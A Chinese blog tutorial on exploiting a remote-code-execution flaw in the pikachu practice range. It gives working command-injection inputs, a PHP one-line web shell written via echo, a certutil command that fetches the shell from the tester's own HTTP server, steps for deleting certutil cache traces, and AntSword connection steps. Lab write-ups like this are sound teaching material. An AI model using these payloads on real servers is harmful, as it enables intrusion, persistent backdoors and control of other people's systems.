 ```yaml
---
title: 网络安全学习-RCE
tags:
  - 网络安全
readmore: true
date: 2023-02-09 11:18:31
updated: 2023-02-09 11:18:31
---
```


RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行，也就造成了远程代码执行漏洞。

<!-- more -->

### 环境搭建

环境使用 pikachu 的靶场，下载地址：https://github.com/zhuifengshaonianhanlu/pikachu

安装方式可自行百度，推荐使用 phpstudy 创建网站，方便快捷。

### ping 命令漏洞

打开 pikachu 靶场中的 RCE -> exec "ping"，在表单中输入 127.0.0.1 可以看到回显，说明执行了 ping 127.0.0.1 的命令。

#### 测试漏洞

紧接着使用 && 连接符在 127.0.0.1 的后面连接上 whoami 命令

```bash
127.0.0.1 && whoami
# whoami 作用是查看操作系统的用户名
# && 连接符，当前面的命令执行后，后面的命令才会执行
```

可以看到两个命令全都执行了，说明这个位置有漏洞，我们可以加以利用。

#### 创建一句话木马(直接写入文件)

输入新的命令：

```bash
127.0.0.1 && echo "<?=eval($_POST['cmd']);?>" > shell.php
# echo 输出字符串
# $_POST['cmd'] 接受来自 POST 请求且参数名为 cmd 的值
# eval() 执行接收到的字符串
# > 将内容输入到指定的文件中
```

此时就在该页面的位置创建了一个 shell.php 文件并输入对应内容。

#### 创建一句话木马(文件下载方式)

除了使用 echo 这种直接写入的办法，还可以使用 certutil 命令从远处下载木马文件。

##### 启动本地服务器

这种方法需要拥有一个服务器，从服务器上下载文件；练习时我们使用 Python 来创建一个本地服务器作为演示。

在安装好 Python 后，创建一个文件夹并创建 shell.php 文件，写入上文的一句话木马。

**目录不要包含中文**

打开命令行输入命令：

```bash
python -m http.server 8080
# -m 将 python 中的模块当作脚本运行
# 8080 服务启动的端口
```

服务器启动成功~

##### 访问本地服务器

输入命令查看自己电脑的 ip：

```bash
# windows
ipconfig
# linux
iconfig
```

**注意 Windows 和 Linux 查看 ip 的命令不同**

在浏览器输入：

```bash
http://192.168.31.195:8080/
```

成功访问后可以看到一个 shell.php 文件。

##### 下载文件

在靶场的表单中输入：

```bash
127.0.0.1 && certutil -urlcache -f -split http://192.168.31.195:8080/shell.php
# -urlcache 显示或删除URL缓存条目
# -f 覆盖的现有文件，后面要跟着下载文件的 url
# -split 保存到文件
# 杀毒软件可能会报毒，因为是自己的命令，我们就允许它执行
```

看到页面有其他的显示，说明文件已经下载成功~

##### 删除下载缓存

certuril 命令有一个弊端就是下载文件后会保留缓存。

输入命令查看缓存：

```bash
certutil -urlcache *
# 查看所有缓存
cerutil -urlcache 192
# 查看包含 192 字符串的缓存
```

输入命令删除缓存：

```bash
certutil -urlcache * delete
# 删除所有缓存
certuil -urlcache 192 delete
# 删除包含 192 字符串的缓存
```

#### 蚁剑连接后台

成功上传一句话木马后，使用蚁剑进行连接。

蚁剑源码下载地址：https://github.com/AntSwordProject/antSword

蚁剑启动器下载地址：https://github.com/AntSwordProject/AntSword-Loader

将蚁剑源码解压后，打开启动器目录选择刚刚的源码文件，稍等片刻会成功启动。

也可以直接使用启动器下载；若遇到解压失败的情况，给予源码的文件夹所有权限即可。 

启动后，在蚁剑空白处右键，选择添加数据；

![](https://pic.mewhz.com/blog/rce-1.png)

在基础配置中的 url 地址，输入靶场中木马所在的 url；

连接密码输入 cmd，即刚刚木马中 $_POST 的参数；

![](https://pic.mewhz.com/blog/rce-2.png)

单击测试连接，显示连接成功后，单击添加；

右键刚刚添加的记录，选择文件管理就可以对木马所在的服务器进行文件操作；

![](https://pic.mewhz.com/blog/rce-3.png)

![](https://pic.mewhz.com/blog/rce-4.png)



仅供学习交流使用~
